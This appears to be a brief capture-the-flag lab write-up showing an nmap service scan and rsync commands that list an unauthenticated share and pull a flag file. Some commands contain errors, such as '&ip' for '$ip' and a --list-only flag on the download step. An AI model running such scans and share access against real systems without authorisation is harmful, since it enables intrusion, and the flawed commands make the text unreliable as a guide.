 # 1.Port Scan
ip=10.129.228.37
nmap -sV -sC  $ip
![85ac0168e45b11dc37f1ab2e819796c5.png](../_resources/85ac0168e45b11dc37f1ab2e819796c5.png)

# 2.Rsync

## rsync connect
`rsync --list-only $ip::`   
![ea43e3f51d026860d5ead2bd734b7d3c.png](../_resources/ea43e3f51d026860d5ead2bd734b7d3c.png)

## public check 
`rsync --list-only &ip::public` 
![0690187126c862805dab40ec9dbf923d.png](../_resources/0690187126c862805dab40ec9dbf923d.png)

## flag get
`rsync --list-only $ip::public/flag.txt flag.txt`
![d25ebfa5675b970b402df89104746a19.png](../_resources/d25ebfa5675b970b402df89104746a19.png)